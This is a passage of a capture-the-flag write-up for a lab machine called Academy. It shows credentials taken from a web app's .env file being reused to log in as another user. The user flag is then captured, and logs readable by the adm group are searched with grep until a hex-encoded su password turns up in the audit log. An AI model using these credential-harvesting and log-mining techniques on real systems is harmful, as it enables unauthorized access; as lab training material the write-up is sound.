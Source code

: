 But with the ones `/var/www/html/academy/.env` maybe

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

No luck either.

But I tried to reused the password `mySup3rP4s5w0rd!!` with user `cry0l1t3` and
it worked (remember he had a `.mysql_history` in his home).

```
$ cat user.txt
0e85e4538755a8311b08a68026e1ec7b
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

## Privilege Escalation of Machine : from cry0l1t3 to mrb3n

As we are in `adm` group I launched a command to see what files
we have access with this group: `find / -group adm -type f 2>/dev/null`.
We have access to all logs in `/var/log`.

There are some interesting files but password are redacted.

```
$ grep -ri password /var/log 2>/dev/null
...
/var/log/installer/subiquity-debug.log.1758:2020-08-07 12:07:02,431 DEBUG subiquity.controllers.identity:70 IdentityController.done next_screen user_spec={'hostname': 'academy', 'realname': 'egre55', 'username': 'egre55', 'password': '<REDACTED>'}
...
/var/log/cloud-init.log:2020-08-07 12:12:07,195 - util.py[DEBUG]: Running hidden command to protect sensitive input/output logstring: ['useradd', 'egre55', '--comment', 'egre55', '--groups', 'adm,cdrom,dip,plugdev,lxd,sudo', '--password', 'REDACTED', '--shell', '/bin/bash', '-m']
...
```

It's possible that `/var/log/audit/audit.log` is logging password during auth attempts.

Ref. [Logging Passwords on Linux](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)

```
$ grep -r 'comm="sudo"' /var/log/audit
$ grep -r 'comm="su"' /var/log/audit
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

The password is hexadecimal encoded.

